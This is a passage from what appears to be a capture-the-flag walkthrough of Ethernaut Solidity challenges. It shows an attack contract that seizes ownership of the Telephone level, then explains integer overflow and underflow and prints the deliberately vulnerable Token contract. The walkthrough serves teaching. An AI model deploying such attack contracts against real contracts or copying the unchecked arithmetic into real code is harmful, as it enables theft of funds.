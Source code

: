 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract Attack {
    Telephone telephone;
    
    constructor(address telephoneInstance) {
        telephone = Telephone(telephoneInstance);
    }
    
    function changeOwner() public {
        telephone.changeOwner(msg.sender);
    }
}
```

___
## Level 5 [Token]

This challenge is based on  arithmetic overflow/underflow in solidity. 

So lets understand what exactly this concept is first.

For all the data types present in Solidity the EVM has a specified size fixed for that particular data type. Meaning a certain data type can only represent values in certain range.

this concept becomes especiall intresting when it comes to integers as a basic uint8 can represent numbers from $0$ to $2^8-1$ i.e [0,255] this is the range of an 8 bit unsigned integer variable.

So integer overflow occurs when an unsigned integer variables value exceeds the range specified for that type and it cant hold that big a value anymore, in which case the value of that variable will be reset to its minimum value i.e 0 and if any excess is there then it will increase from 0 herafter i.e $255 + 1$ will result in $0$ while $255 + 2$ will result in $1$.

That was overflow in the case of integer underflow the same occurs just in reverse i.e subtracting 1 from 0 will result in 255 and so on, basically wrapping around but in reverse this time.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```